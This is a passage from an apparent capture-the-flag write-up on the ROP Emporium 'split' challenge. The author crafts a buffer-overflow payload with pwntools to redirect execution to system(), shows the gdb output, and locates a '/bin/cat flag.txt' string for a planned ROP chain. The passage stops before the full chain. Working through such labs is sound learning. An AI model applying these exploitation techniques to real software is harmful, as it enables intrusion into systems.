 Here we can see that it calls `system()` function that will execute `/bin/ls`. As I like creating exploits sequentially, let's firstly try to call this function, then we'll see what we can do after and what will work out, or what will fail. 

Address of this function is `0x00400807` so we need 40 bytes of gibberish data and this address. 

Simple as it is, right?

```text
[w3ndige@main split]$ python2 -c 'from pwn import *;print("A" * 40 + p64(0x00400807))' > input
```

I am using `pwntools` and `python2` as they seem to work much better with payloads than `python3`, plus `pwntools` greatly simplifies the work.

Executing it in `gdb`, and we get successful `/bin/ls`. 

```text
gdb-peda$ r < input
Starting program: /home/w3ndige/hacking/rop_emporium/split/split < input
split by ROP Emporium
64bits

Contriving a reason to ask user for data...
> [Attaching after process 3463 fork to child process 3464]
[New inferior 2 (process 3464)]
[Detaching after fork from parent process 3463]
[Inferior 1 (process 3463) detached]
process 3464 is executing new program: /usr/bin/bash
process 3464 is executing new program: /usr/bin/ls
flag.txt  input  split
[Inferior 2 (process 3464) exited normally]
Warning: not running or target is remote
```

Now we need to find a way to get a command that will let us view the flag. Luckily, after some analysis we can find desired string sitting in the `data` section of the binary. 

```text
[0x00400650]> izz
[Strings]
Num Paddr      Vaddr      Len Size Section  Type  String
...
028 0x000008d0 0x004008d0  43  44 (.rodata) ascii Contriving a reason to ask user for data...
029 0x000008ff 0x004008ff   7   8 (.rodata) ascii /bin/ls
030 0x00000960 0x00400960   4   5 (.eh_frame) ascii \e\f\a\b
031 0x00000990 0x00400990   4   5 (.eh_frame) ascii \e\f\a\b
032 0x000009b7 0x004009b7   5   6 (.eh_frame) ascii ;*3$"
033 0x000009da 0x004009da   4   5 (.eh_frame) ascii j\f\a\b
034 0x000009fa 0x004009fa   4   5 (.eh_frame) ascii M\f\a\b
035 0x00000a19 0x00400a19   4   5 (.eh_frame) ascii L\f\a\b
036 0x00001060 0x00601060  17  18 (.data) ascii /bin/cat flag.txt
...
```

That may come handy. Let's remember address of this string `0x00601060`. Now we can craft a bigger plan - by overflowing stack, move the execution into the `system()` directly. But we need to find a way to get an address of this string directly into the `RDI` register, just as it's done in normal flow of the program. 
